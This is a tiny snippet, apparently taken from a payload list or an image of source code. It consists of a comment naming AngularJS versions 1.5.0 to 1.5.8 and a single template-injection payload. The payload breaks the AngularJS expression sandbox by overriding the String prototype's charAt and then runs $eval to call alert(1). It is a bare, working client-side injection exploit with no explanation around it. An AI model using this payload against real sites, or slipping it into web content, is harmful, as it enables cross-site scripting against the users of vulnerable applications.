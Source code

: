 #for angular 1.5.0 till 1.5.8

{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
